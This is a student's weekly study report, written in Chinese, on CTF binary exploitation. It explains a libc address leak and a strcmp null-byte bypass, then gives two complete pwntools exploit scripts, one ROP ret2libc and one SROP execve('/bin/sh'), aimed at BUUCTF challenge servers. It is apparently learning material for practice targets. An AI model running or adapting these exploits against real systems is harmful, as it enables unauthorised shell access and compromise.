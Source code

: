 ## 个人周报 
景禹淇 202012567

**本周工作：**  
1. 搭建个人博客
2. 掌握srop技术
3. 掌握栈迁移技术
4. buuctf刷题 
  
**本周遇到的技术困难及解决方案：**  
1. 当栈溢出后利用rop（64位）泄露函数got表中地址时，如果此时原函数还有输出，用通常的方法leak函数地址的payload：
   ```python
   xxx_addr=u64(p.recv(6).ljust(8,'\x00'))
   ```
   不能直接找到函数的地址。 

   **解决方案：**
   由于leak出的函数地址前还有输出(假设有3f个字节)，可以通过gdb手动找到函数位置：
   ```python
    xxx_addr=u64(p.recv(0x3f+0x6)[-6:].ljust(8,'\x00'))
   ```
   这种方法效率较低，还容易出错。因为leak出的地址以'\x7f'开头，所以可以构造payload如下：
   ```python 
    xxx_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
   ```
2. 当你要输入大量字符来造成溢出，而strcmp函数却对字符串有着要求：
   ```c++
   strcmp(&s, "neuqacm")
   ``` 
   **解决方案：**
   查阅资料了解，strcmp函数将两个字符串自左向右逐个字符相比（按ASCII值大小相比较），直到出现不同的字符或遇'\x00'为止。所以可以构造payload如下：
   ```python
   pay='neuqacm\x00'+'aaaaaaaaaaaaa'
   ```
##### 下周安排：

1. 复盘月赛
2. 学习heap相关知识
3. buuctf刷题 
   
##### 成果展示：
>就贴几个写的比较久的exp吧
1. <font size=5>`rop.exp`</font>
```python
from pwn import *
from LibcSearcher import *

context.os='linux' 
context.arch='amd64' 
context.log_level='debug' 

p=remote('node3.buuoj.cn',28304)
#p = process('./1')
elf = ELF('./1')
printf_plt = elf.plt['printf']
read_got = elf.got['read']
main = elf.sym['main']
sys=0x045390

leave_ret = 0x04006ca
pop_rdi =0x0400733
pop_rsi_r15=0x00400731 
bss=0x0804A300
sh=0x18cd57
read_addr=0x0f7250

p.recvuntil('name? ')
pay="A"*0x28 + p64(pop_rdi) + p64(read_got)+p64(printf_plt)+p64(main)
p.sendline(pay)

read=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
#read=u64(p.recv(0x3e+0x6)[-6:].ljust(8,'\x00'))
print(hex(read))

base=read-read_addr
sh+=base
sys+=base

p.recvuntil('name? ')
pay="A"*0x28 + p64(pop_rdi) +p64(sh)+p64(sys)
p.sendline(pay)
p.interactive() 
```
2. <font size=5>`srop.exp`</font>
```python
from pwn import *
from LibcSearcher import *

context.os='linux' 
context.arch='amd64' 
context.log_level='debug' 

p=remote('nnode3.buuoj.cn',29784)
#p = process('./1')
elf = ELF('./1')
main=0x0040051D
sigret=0x04004DA
sys=0x00400501
#gdb.attach(p,"b *0x040051d")

pay='/bin/sh\x00'+"A"*8+p64(0x4004F1)
p.send(pay)
p.recv(0x20)
#sh=u64(p.recv(8))-0x5438+0x5320
sh=u64(p.recv(8))-0x118
print(hex(sh))


frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = sh
frame.rsi = 0
frame.rdx = 0
frame.rip = sys

pay="a"*16+p64(sigret)+p64(sys)+str(frame)
p.send(pay)
p.interactive()
```
